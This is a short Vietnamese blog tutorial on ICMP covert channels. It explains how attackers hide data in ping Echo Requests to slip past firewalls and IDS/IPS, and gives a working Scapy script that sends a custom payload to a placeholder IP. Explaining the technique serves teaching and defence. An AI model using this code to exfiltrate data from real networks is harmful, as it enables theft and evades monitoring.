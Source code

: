 ```yaml
---
title:  "ICMP Packets with Payload"
date: 2025-04-13 10:00:00 +0700
comments: true
description: How to Create ICMP Packets with Payload to Exfiltrate Data
categories: [Cybersecurity, Networking]
toc: true
tags: [protocol, python, packet, icmp]
image:
    path: /assets/img/posts/2025-04-13-how-to-create-icmp-packet-with-payload-exfiltrate-data/icmp.png
---
```


## Introduction
---
Trong một số tình huống, kẻ tấn công có thể lợi dụng giao thức ICMP để gửi dữ liệu ra ngoài mạng, vượt qua các tường lửa và hệ thống Phát hiện/Ngăn chặn xâm nhập (IDS/IPS). Điều này có thể được thực hiện bằng cách nhúng dữ liệu vào các gói ICMP Echo Request và Echo Reply, khiến việc phát hiện việc xâm nhập trở nên khó khăn hơn.

Các gói ICMP, thường được sử dụng cho các chẩn đoán mạng như "ping", có thể bị thao túng để mang theo các payload tùy chỉnh (dữ liệu) mà kẻ tấn công muốn gửi.

## ICMP Payload Theory
---
- **ICMP Echo Request (Loại 8) và Echo Reply (Loại 0)** là các loại gói ICMP phổ biến, thường được sử dụng cho các yêu cầu ping. Tuy nhiên, ngoài việc kiểm tra kết nối, chúng có thể chứa một payload — dữ liệu mà kẻ tấn công muốn gửi.
  
- **Payload** đề cập đến dữ liệu được bao gồm trong gói ICMP. Dữ liệu này có thể là văn bản thuần túy, thông tin đã mã hóa hoặc thậm chí là dữ liệu bị đánh cắp.

## Creating ICMP Packets with Payload
---
Bạn có thể tạo các gói ICMP với payload tùy chỉnh bằng cách sử dụng Python và thư viện `Scapy`. Dưới đây là ví dụ về cách tạo một gói ICMP Echo Request với payload tùy chỉnh.

```python
from scapy.all import IP, ICMP, send

def send_icmp_payload(target_ip, message):
    # The payload is the message you want to send, can be encoded data
    payload = bytes(message, 'utf-8')

    # Create an ICMP Echo Request packet
    packet = IP(dst=target_ip) / ICMP(type=8) / payload  # type=8 is Echo Request

    # Send the packet
    print(f"Sending ICMP Echo Request with payload to {target_ip}")
    send(packet)

## Target IP and the message to be sent
target_ip = "192.168.x.x"  # Replace with the actual target IP address
message = "This is a test payload that could contain exfiltrated data."

send_icmp_payload(target_ip, message)
```